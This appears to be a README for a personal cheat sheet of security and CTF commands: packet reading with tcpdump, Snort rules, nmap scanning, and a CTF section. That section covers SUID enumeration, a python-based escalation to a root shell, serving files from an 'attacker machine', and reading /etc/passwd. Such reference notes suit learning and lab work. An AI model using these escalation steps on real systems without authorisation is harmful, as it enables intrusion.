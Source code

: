 # The-Source
Collection of useful knowledge, commands, and shortcuts.

## Working with packets

Use `tcpdump` to read .pcap files in the command line. Useful for when you don't have access to WireShark.

```tcpdump -qns 0 -X -r file.pcap```

#### Snort Rules

Detect login attempts with the "Administrator" account and a wrong/no password.

```alert tcp any 21 <> any any (msg: "FAILED LOGIN"; content: "331 Password"; content: "Administrator"; sid: 1000004; rev:1;)```

Dump raw packet data

```sudo snort -v -X -r snort.log.xxxxxxx```

Run Snort as IPS on interfaces eth0 and eth1

```sudo snort -c /etc/snort/snort.conf -q -Q --daq afpacket -i eth0:eth1 -A full```

## Reconnaissance

#### NMAP

Default scan suitable for most networks.

```nmap -sV -sC -O <ip>```

## CTFs

#### Finding flags

Find flag specifying filetype and name and output errors to dev/null

```find / -type f -name <flag> 2>/dev/null```

### Privilege escalation

Refer to [https://gtfobins.github.io/](https://gtfobins.github.io/) for more methods.

##### Find files with SUID permissions

```find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null```

If for example we find that python has SUID permissions, we can move to the python directory and escalate privileges with:

```./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'```

#### Find writable directories/files

```find / -writable -type d 2>/dev/null ```

#### Setup a python http server to download files from attacker machine to target machine.

```python -m http.server```

#### Use gcc to compile a C program

```gcc exploit.c -o exploit```

## Output formatting

#### Cut

```cat``` the contents of /etc/passwd and pass them through ```cut``` to extract the first field delimited by a colon

 ```cat /etc/passwd | cut -d ":" -f 1```


